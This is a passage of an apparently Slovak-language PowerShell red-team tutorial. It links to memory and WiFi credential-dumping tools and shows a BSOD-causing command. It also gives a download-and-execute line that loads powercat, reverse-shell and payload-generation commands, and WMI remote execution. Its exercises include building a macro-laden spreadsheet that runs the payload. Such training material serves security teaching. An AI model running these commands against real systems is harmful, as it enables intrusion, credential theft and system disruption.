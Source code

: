 [PowerMemory](https://github.com/giMini/PowerMemory)

Reveal-MemoryCredentials.ps1

### Heslá k&nbsp;WiFi

[Get-WLANKeys](https://github.com/samratashok/nishang/blob/master/Gather/Get-WLAN-Keys.ps1)

### BSOD po ukončení PowerShellu

<pre class="lang:ps decode:true">Set-CriticalProcess</pre>

### Spúšťanie príkazov na&nbsp;diaľku

Úloha: Spustite príkaz Stop-Process na&nbsp;vzdialenom PC.

### Spúšťanie príkazov na&nbsp;diaľku bez PS Remotingu

<pre class="lang:ps decode:true"># Načítanie PowerCat
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

# Spustenie listeneru
powercat -l -p 8000

# Spustenie klienta
powercat -c 10.0.0.1 -p 8000

# Spustenie klienta v&nbsp;režime PowerShell
powercat -c 10.0.0.1 -p 8000 -ep

# Vygenerovanie reverzného TCP payloadu
powercat -c 10.0.0.1 -p 10000 -ep -g
powercat -c 10.0.0.1 -p 10000 -ep -ge
</pre>

Úloha 1: Skúste skopírovať súbor pomocou powercat.

Úloha 2: Vytvorte XLS dokument s&nbsp;makrom, ktoré spustí vygenerovaný payload.

### Spúšťanie príkazov na&nbsp;diaľku cez&nbsp;WMI

Znovu použijeme PowerSploit

<pre class="lang:ps decode:true ">Invoke-WmiCommand -Payload { if&nbsp;($True) { 'Do Evil' } } -ComputerName '10.10.1.1'</pre>

### Spustenie natívneho kódu v&nbsp;inom procese

